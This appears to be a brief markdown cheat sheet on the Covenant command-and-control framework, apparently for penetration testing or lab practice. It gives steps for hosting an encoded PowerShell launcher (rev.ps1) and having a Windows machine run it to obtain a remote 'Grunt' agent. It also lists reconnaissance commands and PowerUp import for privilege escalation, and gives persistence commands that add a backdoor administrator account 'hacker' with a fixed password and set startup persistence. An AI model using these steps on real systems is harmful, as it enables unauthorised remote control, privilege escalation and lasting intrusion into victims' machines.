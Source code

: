 # Covenant

### Covenant Terms

* Listener
* Grunt

### Covenant Grunt Commands

* `whoami` - who am I
* `Seatbelt -group=all` - get system info about everything
* `GetDomainUser` - get domain users

### How to get a grunt

* Make sure attacker's antivirus is turned off

* Create a Listener
  * Be sure to change ConnectAddresses
* Go into Launchers
  * Click on Powershell
  * Select Listener
  * Go into  Host
  * type in `/rev.ps1` and click host
  * Take note of the EncodedLauncher command
* Get Windows machine to run the command
* Once ran, go into Grunts
* Enjoy!

### PowerUp.ps1

```
PowershellImport

* select file * 

powershell i
```



### Persistence

Run these commands on a Grunt:

```
shellcmd net users hacker Password123! /add
```

```
shell net localgroup administrators hacker /add
```

PersistStartup

